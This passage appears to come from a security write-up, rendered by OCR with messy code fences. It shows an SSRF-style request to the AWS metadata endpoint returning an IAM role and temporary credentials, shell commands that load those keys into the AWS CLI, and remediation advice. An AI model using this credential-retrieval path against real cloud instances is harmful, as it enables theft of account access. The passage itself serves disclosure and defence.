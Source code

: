 ```json
                    In addition to listing an S3 bucket, the output reveals the service is running on Kubernetes, using Amazon's Auto-Scaling Group (ASG) and Spot Instances. The use of Kubernetes possibly offers other paths to exploitation that were not explored during this research.

                    The main trophy from interaction with the endpoint is the temporary security credentials. A list of available security credentials can be obtained from the `/latest/meta-data/iam/security-credentials/` path:

                    ```json
                    "data": {
                        "code": 200,
                        "body": "eu-north-1-role.kube.nodes.asgspot2"
                    }
    ```

        These credentials can be obtained by requesting `/latest/meta-data/iam/security-credentials/eu-north-1-role.kube.nodes.asgspot2`:

        ```json
        "data": {
            "code": 200,
                "body": "
                    \"Code\" : \"Success\",
                \"LastUpdated\" : \"2018-08-05T15:33:26Z\",
                \"Type\" : \"AWS-HMAC\",
                \"AccessKeyId\" : \"AKIAI44QH8DHBEXAMPLE\",
                \"SecretAccessKey\" : \"wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY\",
                \"Token\" : \"AQoDYXdzEJr[....]\",
                \"Expiration\" : \"2018-08-05T22:00:54Z\"
                    "
        }"
    ```

        These can then be used to authenticate to the AWS API:

        ```
        $ export AWS_ACCESS_KEY_ID=AKIAI44QH8DHBEXAMPLE
        $ export AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
        $ export AWS_SESSION_TOKEN=AQoDYXdzEJr[...]

        $ aws ec2 describe-instances
        [...]
        ```

            The extent of the impact is determined by the permissions granted with the credentials. This can range from complete compromise to information disclosure. Even with low privileges, attackers may be able to leverage such access to uncover additional attack paths or escalate their privileges.

## Remediation

### AWS

            In AWS environments, measures should always be taken to prevent unintended interactions with the AWS metadata endpoint. As services may need to access the endpoint, a possible measure is to implement _iptables_ rules on the instances to limit traffic to root while ensuring that processes that interact with user input do not run as root.

            This vector is not limited to attacking the AWS metadata endpoint as other network services may be exploitable. Firewall rules should be implemented accordingly.

            As always, the principle of least privilege also applies: security credentials should not offer more privileges than necessary.
```